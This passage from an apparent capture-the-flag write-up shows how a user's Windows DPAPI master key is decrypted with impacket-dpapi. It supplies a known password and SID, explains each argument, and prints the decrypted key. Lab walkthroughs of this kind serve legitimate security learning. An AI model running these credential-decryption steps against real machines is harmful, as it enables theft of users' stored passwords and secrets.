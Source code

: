 What we have downloaded we will need later, if we continue investigating we find that in the path `C:\Users\C.Neri\AppData\Roaming\Microsoft\Protect\S-1-5-21-4024337825-2033394866-2055507597-1115` we find this

![Texto alternativo](/assets/vintage/Screenshot%202025-03-07%20134345.jpg)

Then we try to crack the file `99cf41a3-a552-4cf7-a8d7-aca2d6f7339b` which is the most important since this will give us a password, to crack it we execute the following

```bash
impacket-dpapi masterkey -file 99cf41a3-a552-4cf7-a8d7-aca2d6f7339b -sid S-1-5-21-4024337825-2033394866-2055507597-1115 -password Zer0the0ne
```

- `impacket-dpapi masterkey`: This is the Impacket module for interacting with DPAPI master keys. DPAPI is an API in Windows that allows users to securely encrypt data such as passwords, certificates, and other secrets. Windows uses master keys to protect this encrypted data, and the masterkey command is designed to recover or decrypt those master keys.

- `-file 99cf41a3-a552-4cf7-a8d7-aca2d6f7339b`: This is the masterkey file that you want to decrypt. This file is generated by Windows DPAPI and is stored in the user's profile. Master keys are used by DPAPI to encrypt and decrypt sensitive data.

- `-sid S-1-5-21-4024337825-2033394866-2055507597-1115`: The SID (Security Identifier) ​​is the unique identifier for a user on the Windows system. It is needed to decrypt the master key because DPAPI uses the user's SID as part of the encryption/decryption process.

- `-password Zer0the0ne`: This is the user's password associated with the provided SID. To decrypt the master key, you need the user's password, as DPAPI uses the password as part of the key derivation process to protect data.

This command is used to **decrypt a DPAPI master key**. On Windows, when a user encrypts data using DPAPI, a master key is generated that is used for encryption and decryption of that data. Without this key, the data cannot be recovered.

```bash
❯ impacket-dpapi masterkey -file 99cf41a3-a552-4cf7-a8d7-aca2d6f7339b -sid S-1-5-21-4024337825-2033394866-2055507597-1115 -password Zer0the0ne
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[MASTERKEYFILE]
Version     :        2 (2)
Guid        : 99cf41a3-a552-4cf7-a8d7-aca2d6f7339b
Flags       :        0 (0)
Policy      :        0 (0)
MasterKeyLen: 00000088 (136)
BackupKeyLen: 00000068 (104)
CredHistLen : 00000000 (0)
DomainKeyLen: 00000174 (372)

Decrypted key with User Key (MD4 protected)
Decrypted key: 0xf8901b2125dd10209da9f66562df2e68e89a48cd0278b48a37f510df01418e68b283c61707f3935662443d81c0d352f1bc8055523bf65b2d763191ecd44e525a
```
